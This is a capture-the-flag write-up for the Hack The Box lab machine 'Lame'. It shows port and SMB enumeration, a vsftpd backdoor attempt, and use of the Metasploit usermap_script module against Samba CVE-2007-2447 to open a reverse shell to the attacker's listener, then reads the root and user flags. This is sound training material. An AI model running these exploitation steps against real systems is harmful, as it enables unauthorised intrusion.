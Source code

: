 # HTB: Lame

## 🔍 Enumeration
```bash
nmap -p- --min-rate=1000 -T4 10.10.10.3
```
**Results:**
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

### SMB Enumeration
```bash
smbmap -H 10.10.10.3
```
**Results:**
```
[+] IP: 10.10.10.3:445	Name: 10.10.10.3          	Status: Authenticated
	Disk    | Permissions | Comment
	--------|-------------|--------------------------
	print$  | NO ACCESS   | Printer Drivers
	tmp     | READ, WRITE | oh noes!
	opt     | NO ACCESS   | 
	IPC$    | NO ACCESS   | IPC Service (Samba 3.0.20-Debian)
	ADMIN$  | NO ACCESS   | IPC Service (Samba 3.0.20-Debian)
```

```bash
smbclient -N \\10.10.10.3\tmp
```
Successfully connected and browsed the `tmp` share.

---

## 💥 Exploitation

### FTP – Vsftpd 2.3.4 (CVE-2011-2523)
- **Exploit Used:** `exploit/unix/ftp/vsftpd_234_backdoor`
- **Outcome:** Not exploitable — port 6200 blocked by firewall.

### SMB – Samba 3.0.20-Debian (CVE-2007-2447)
- **Exploit Used:** `exploit/multi/samba/usermap_script`  
- **Vulnerability:** Username map script command execution  
- **Payload:** Reverse TCP shell via Metasploit

```bash
msf6 > use exploit/multi/samba/usermap_script
```
```
[*] Started reverse TCP handler on 10.10.16.5:4444 
[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.3:43580)
```

## ⚙️ Privilege Escalation
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
id
uid=0(root) gid=0(root)
```

**Flags:**
```bash
cat /home/makis/user.txt
e95ac31f8132e26eac44c2fe58792cfa

cat /root/root.txt
4f8f2ae18815f97ffdf7975965d6b624
```

---

## 🛠️ Tools Used
- `nmap`, `smbmap`, `smbclient`, `metasploit`, `searchsploit`, `nc`, `netstat`

---

## 🧠 Key Takeaways
- Exploiting outdated Samba services is still viable on legacy boxes.
- Port filtering can block shell return paths even if a vuln exists (FTP port 6200).
- Always enumerate SMB shares even without creds — `smbclient` often provides an initial foothold.
- Samba CVE-2007-2447 is a classic — worth mastering for CTFs and exams like OSCP.